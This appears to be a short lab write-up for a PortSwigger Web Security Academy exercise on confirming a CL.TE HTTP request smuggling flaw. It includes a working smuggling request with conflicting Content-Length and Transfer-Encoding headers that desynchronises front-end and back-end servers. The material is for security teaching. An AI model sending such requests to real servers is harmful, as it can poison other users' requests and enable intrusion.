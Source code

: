 # HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses) involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

## Reproduction and proof of concept

1. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response. In this case the CL.TE vulnerability must be exploited via differential response.

